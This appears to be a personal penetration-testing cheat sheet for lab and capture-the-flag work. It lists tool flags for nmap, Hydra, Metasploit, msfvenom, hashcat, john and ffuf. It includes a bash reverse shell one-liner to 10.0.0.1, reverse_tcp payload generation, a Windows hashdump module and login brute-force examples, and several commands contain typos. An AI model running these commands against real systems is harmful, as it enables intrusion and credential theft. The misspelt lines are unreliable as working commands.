 
nmap:
Example: nmap -sV -sC -oN nmap 10.10.10.168
Enumerate Versions: -sV
Default Scripts: -sC
Syn Scan: -sS
All Ports: -p-
Output (Normal): -oN filename
Output (All Formats): -oA filename
Target File: -iL file

reverse-shells:
classic: bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


cut:
Define Delimiter: -d “/”
Field: -f 1


tr:
Example newline to comma: tr ‘\n’ ‘,’


awk example: awk {'print $2'}


Hydra:
Example: hydra -l user -p pass 127.0.0.1 ssh
User: -l
User File: -L
Password: -p
Password File: -P


Searchsploit:
Example: serachsploit vsftpd
Read Exploit: -x
Mirror/Copy to current location: -m


Gobuster:
Example: gobuster dir -w /path/to/wordlist -u http://0.0.0.0 -x php -o outfile 
File Extensions: -x
Directory/File mode: dir
Wordlist: -w
Url: -u
Outfile: -o


Metasploit:
Start postgresql: sudo systemctl start postgresql
StartDB: sudo msfdb init
Start MSF: msfconsole
Start + Ignore Ruby Warnings: ruby -W0 /usr/bin/msfconsole
Database Status: db_status
MSF Nmap: db_nmap
Show Scan Results: services
Search exploits: search word
Using exploit: use #
Options: options
Run Exploit in the Background: exploit -j
Setting Options: set option value
Listener: use exploit/multi/handler
Workspace: workspace
Set Hosts From Scan: hosts -R
Show Jobs: jobs


Meterpreter:
Background: CTRL+Z
List Processes: ps
Show id: getuid
Hashdump (Windows): run post/windows/gather/hashdump


MsfVenom:
Example: msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf > outfile
Payload: -p
Architecture: -a
Listener Host + Port: LHOST=0.0.0.0 LPORT=1234
Filetype: -f
Bad Bytes: -b
Linux Payload: linux/x64/meterpreter/reverce_tcp
Windows: windows/meterpreter/reverce_tcp
PHP: php/meterpreter/reverce_tcp


PrivEsc:
sudo -l
Find Group Owned Files: find / -group <group-name>
Find SUID: find / -perm -4000
Find GUID: find / -perm -2000
Listening Ports: netstat -tulnp
Listening Ports: ss -ltnp
Find World Readable: find / -perm -o+w


SQLi Cheatsheet: https://portswigger.net/web-security/sql-injection/cheat-sheet


Hashcat:
Hash Mode: -m <id>
Attack Mode: -a <id>
Workload 1-4: -w <id>
Disable Potfile: --potfile-disable
Show Cracked Hashes: --show
Show Example: .\hashcat64.exe --show file.hash -o cracked3.txt
Out File: -o
Usernames in Hashfile: --username
Rules Example: .\hashcat64.exe -r .\rules\best64.rule --stdout .\rockyou.txt > rockyou2.txt


dos2unix:
Force: -f


john:
Example: john --wordlist=path/file  hash.file
Wordlist: --wordlist=file
John Jumbo: sshng2john
John Normal: ssh2john


fuff:
Example: ./ffuf -v -r -x http://127.0.0.1:8081 -w ~/Documents/htb/rockyou.txt -X POST -b 'security=low; PHPSESSID=1c3f0f4064329fa5fa3be61c2fed7d0a' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=admin&password=FUZZ&Login=Login' -u http://10.0.2.9/dvwa/login.php
Verbose: -v
Follow Redirects: -r
Proxy: -x http://127.0.0.1:8081
Wordlist: -w
HTTP Method: -X POST
Cookie: -b
Header: -H
Url: -u


python3:
Flush Trick: print("\r" + stuff, flush=False ends="")


External Sources:

Hydra
Example :hydra -l admin -P wordlist 127.0.0.1 -s 5000 http-post-form "/:username=^USER^&password=^PASS^:Invalid Credentials. Please try again." -V
Port number: -s
HTTP Method: http-post-form
Place user/pass: ^USER^ / ^PASS^
Ignore warnings: -I  <- ^i
show login/pass: -V


wfuzz:
Example: wfuzz -w wordlist -d "username=admin&password=FUZZ" http://localhost:5000/
Wordlist: -w
Post data: -d


https://nikitushka.github.io/passwords.html






























